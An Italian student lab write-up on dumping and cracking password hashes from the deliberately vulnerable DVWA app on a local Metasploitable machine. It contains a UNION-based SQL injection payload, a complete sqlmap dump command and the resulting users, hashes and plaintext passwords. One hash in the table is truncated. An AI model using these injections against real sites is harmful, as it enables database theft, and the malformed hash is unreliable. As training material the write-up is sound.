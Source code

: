 # **Consegna S6/L4**
# **Password Cracking - Recupero delle Password in Chiaro**

## **Obiettivo dell'Esercizio**

L'obiettivo di questo esercizio era:
1. Recuperare le password hashate nel database della DVWA.
2. Eseguire la verifica degli hash per confermare che fossero di tipo MD5.
3. Recuperare le password in chiaro utilizzando i risultati ottenuti.

---

## **Passaggi Seguiti**

### **1. Recupero delle Password dal Database**

Per recuperare le password hashate, abbiamo seguito i seguenti passaggi:

1. **Connessione al database DVWA**: Il database vulnerabile era ospitato su una macchina Metasploitable configurata con indirizzo IP `192.168.1.20`.

2. **Verifica della vulnerabilità SQL Injection**:
   - La vulnerabilità è stata identificata manualmente testando la query:
     ```sql
     ' UNION SELECT user, password FROM users--
     ```
   - Questo test ha confermato la possibilità di estrarre dati dalla tabella `users`.

3. **Utilizzo di SQLMap per automatizzare il processo**:
   - Abbiamo eseguito il seguente comando SQLMap:
     ```bash
     sqlmap -u "http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
     --cookie="PHPSESSID=ae5d9438f544ec0461fd88f50b32fc1e; security=low" \
     -D dvwa -T users --dump
     ```
   - Il comando ha permesso di estrarre la tabella `users` con i seguenti dati:
     ```plaintext
     +----------+----------------------------------+
     | user     | password                         |
     +----------+----------------------------------+
     | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
     | gordonb  | e99a18c428cb38d5f260853678922e03 |
     | 1337     | 8d3533d75ae2c396d7e0d4fcc69216b  |
     | pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 |
     | smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |
     +----------+----------------------------------+
     ```

---

### **2. Identificazione delle Password Hashate**

Una volta estratti gli hash, abbiamo verificato che fossero di tipo MD5 utilizzando un tool di identificazione degli hash. Questo ci ha confermato che tutti gli hash estratti appartenevano alla famiglia MD5.

Esempio di verifica di un hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashid
```
Risultato:
```plaintext
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
[+] Altri algoritmi compatibili: MD2, MD4, Double MD5, ecc.
```

Sebbene l'hash possa essere compatibile con altri algoritmi, nel contesto di DVWA e degli utilizzi tipici, possiamo confermare con sicurezza che si tratta di MD5.

---

### **3. Recupero delle Password in Chiaro**

Grazie ai dati estratti, è stato possibile associare ogni hash MD5 alla rispettiva password in chiaro direttamente nei risultati restituiti da SQLMap. Non è stato necessario utilizzare tool di cracking come John the Ripper.

Le password in chiaro sono:
- `admin`: `password`
- `gordonb`: `abc123`
- `1337`: `charley`
- `pablo`: `letmein`
- `smithy`: `password`

![Success!](./HashCracked.png)

![Final](./Final.png)

---

## **Conclusioni**

L'esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 utilizzando un tool di identificazione degli hash.
3. Recuperare le password in chiaro direttamente dai risultati, completando l'obiettivo senza la necessità di ulteriori tool di cracking.

La procedura seguita dimostra l'importanza della sicurezza dei database e dei sistemi web, evidenziando come vulnerabilità note possano essere sfruttate per ottenere dati sensibili.
